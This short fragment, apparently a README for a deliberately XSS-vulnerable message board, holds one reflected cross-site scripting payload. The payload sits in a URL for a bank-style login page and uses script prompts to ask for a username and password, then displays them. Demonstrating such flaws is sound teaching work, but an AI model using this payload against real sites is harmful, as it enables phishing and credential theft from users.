 # XSS-Vunerable-Board
img src vunerable
http://freebankonline.com/banklogin.asp?err=<script>username=prompt('Please enter your username',' '); password=prompt('Please enter your password',' '); alert("username="+username+" and password="+password);</script>
